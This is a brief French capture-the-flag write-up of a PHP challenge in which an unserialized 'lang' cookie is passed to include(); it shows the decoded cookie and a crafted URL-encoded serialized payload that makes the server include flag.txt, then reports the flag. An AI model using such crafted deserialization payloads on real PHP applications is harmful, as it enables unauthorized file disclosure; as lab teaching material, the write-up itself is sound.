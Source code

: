 # Web 50 - Much Serie Very Analyse


Un challenge très simple, en regardant la source disponible nous voyons qu’un cookie lang est désérialisé.

Cette désarialisation entraîne l’exécution de include($this->lang);.
En sélectionnant français comme langue pour le site, nous obtenons ce cookie:


> O%3A4%3A%22Lang%22%3A1%3A%7Bs%3A10%3A%22%00Lang%00lang%22%3Bs%3A6%3A%22fr.
php%22%3B%7D



Il est encodé sous forme d’URL, en le décodant on obtient :

> O:4:'Lang':1:{s:10:'\ x00Lang\ x00lang';s:6:'fr.php';}



Avec fr.php qui est le fichier à inclure et 6 la longueur du nom du fichier.
Nous voulons inclure flag.txt, il suffit de modifier les paramètres décris plus haut:


> O%3A4%3A%22Lang%22%3A1%3A%7Bs%3A10%3A%22%00Lang%00lang%22%3Bs%3A8%3A%22fla
g.txt%22%3B%7D



Nous obtenons **ese{D4mn_PhP_Object}**.